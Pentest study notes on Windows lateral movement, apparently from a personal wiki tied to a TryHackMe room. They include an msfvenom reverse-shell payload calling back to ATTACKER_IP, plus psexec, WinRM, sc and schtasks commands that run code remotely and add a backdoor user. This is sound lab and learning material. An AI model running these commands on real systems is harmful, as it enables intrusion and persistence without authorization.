 # Windows Network Lateral Movement
The articles [[Network-Protocols]], [[Network-Services]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

## MSFVenom
[[MSFvenom-Payloads]] for exe-service
```bash
 msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

## Spawning Process Remotely
See [[Windows-Processes]] for more information on Service and Processes. [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership

`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```

## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.


1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```

## Remote Service Creation with `sc`
1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows Ser services execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```

## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```



## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
